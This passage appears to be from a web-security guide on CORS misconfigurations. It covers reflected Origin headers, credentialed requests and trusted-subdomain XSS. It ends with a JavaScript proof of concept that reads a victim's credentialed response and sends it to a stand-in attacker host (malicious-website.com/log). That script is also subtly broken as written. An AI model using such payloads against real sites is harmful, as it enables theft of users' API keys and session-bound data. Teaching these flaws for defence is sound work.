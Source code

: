 If an application responds with:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

An attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve an API key using a URL like: `https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>`

## Generation the Access-Control-Allow-Origin header

No browsers actually support a space-separated list of origins (the specification suggests this):

```http
Access-Control-Allow-Origin: http://foo.com http://bar.net
```

Additionally, a wildcard does not allow you to trust all subdomains:

```http
Access-Control-Allow-Origin: *.bar.net
```

There is only wildcard origin `'*'`.

Since you can't use wildcard in `Access-Control-Allow-Origin` when credentials flag is true, check [Access-Control-Allow-Origin](#access-control-allow-origin), many applications programmatically generate the `Access-Control-Allow-Origin` header based on the user-supplied `Origin` value. If you see a HTTP response with any `Access-Control-*` headers but no origins declared, this is a strong indication that an application will generate the header based on a user input. Other applications will only send CORS headers if they receive a request containing the `Origin` header, making associated vulnerabilities extremely easy to miss.

For instance, an application receives the following request:

```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=<token>
```

and responds with:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

If the response contains any sensitive information such as an API key or CSRF token, you can retrieve this by placing the following script on your resource:

```js
fetch("https://vulnerable-website.com/sensitive-victim-data", {
    credentials: "include"
})
    .then((response) => {
        document.location = "//malicious-website.com/log?key={0}".format(response.text());
    });
```
